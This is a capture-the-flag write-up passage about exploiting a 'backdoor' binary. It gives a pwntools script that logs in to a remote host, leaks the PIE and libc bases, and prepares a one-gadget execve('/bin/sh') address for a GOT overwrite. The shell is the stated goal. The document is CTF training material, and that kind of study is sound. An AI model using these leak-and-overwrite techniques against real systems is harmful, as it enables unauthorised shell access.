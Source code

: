 The easy way of doing this, would be overwriting /proc/self/maps with the string flag.txt, when it then tries to open /proc/self/maps and writes it out, it would instead open flag.txt.

I decided however to go for shell on the box.

Using the maps command I could see it was running libc-2.31.so. Which means it's highly likely it's running the Ubuntu libc.

The Ubuntu libc-2.31.so has a bunch of one gadgets in it, we could use to spawn a shell.

The following exploit grabs the base addresses of libc and PIE using the maps command, then overwrites the GOT of opendir with a one gadget, then calls the maps command to spawn a shell:

```python
from pwn import *


context.terminal = ["konsole","-e"]

gdbscript = '''
b *main+199
c
'''
#io = gdb.debug("./backdoor",gdbscript=gdbscript)
io = remote("164.92.150.74" ,1337)
#io = process("./backdoor")
io.recvuntil(b'Enter username:')

io.sendline(b'improsec')

io.recvuntil(b'Enter password:')
io.sendline(b'shopgirl711')

io.recvuntil(b'Enter command:')

io.sendline(b'maps')

io.recvline()
pieleak = int(io.recvline().split(b'-')[0],16)

log.info(f'PIE: {hex(pieleak)}')

for i in range(0,16):
    io.recvline()
io.recvline()
libcleak = int(io.recvline().split(b'-')[0],16)
log.info(f"libc base: {hex(libcleak)}")

"""
0xe3b2e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b31 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

"""
one_gadget = libcleak + 0xe3b31
```